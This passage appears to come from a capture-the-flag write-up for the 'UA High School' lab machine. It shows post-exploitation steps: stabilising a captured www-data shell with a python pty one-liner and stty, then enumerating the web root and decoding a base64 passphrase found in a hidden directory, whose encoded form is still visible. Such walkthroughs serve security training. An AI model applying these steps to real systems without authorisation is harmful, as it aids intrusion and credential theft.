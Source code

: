 ### Upgrade & Stabilize shell (Optional)

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

Press “**`Ctrl + Z`**” to temporarily background the process.

```
stty raw -echo; fg 
export TERM=xterm
```

The process looks like this:

![image.png](/assets/UAHighSchool%20images/image.png)

### SSH → **`deku`**

Enumerating the web-root directory, I found a directory “**`Hidden_Content`**” and there was a **`passphrase.txt`** file contain a **`base64`** encoded string.

```
www-data@myheroacademia:/var/www$ ls -lhat
total 16K
drwxr-xr-x  3 www-data www-data 4.0K Dec 13  2023 html
drwxr-xr-x  4 www-data www-data 4.0K Dec 13  2023 .
drwxrwxr-x  2 www-data www-data 4.0K Jul  9  2023 Hidden_Content
drwxr-xr-x 14 root     root     4.0K Jul  9  2023 ..
www-data@myheroacademia:/var/www$ cd Hidden_Content/
www-data@myheroacademia:/var/www/Hidden_Content$ ls -lhat
total 12K
drwxr-xr-x 4 www-data www-data 4.0K Dec 13  2023 ..
-rw-rw-r-- 1 www-data www-data   29 Jul  9  2023 passphrase.txt
drwxrwxr-x 2 www-data www-data 4.0K Jul  9  2023 .
www-data@myheroacademia:/var/www/Hidden_Content$ cat passphrase.txt 
QWxsbWlnaHRGb3JFdmVyISEhCg==
www-data@myheroacademia:/var/www/Hidden_Content$ cat passphrase.txt | base64 -d
[REDACTED]
```
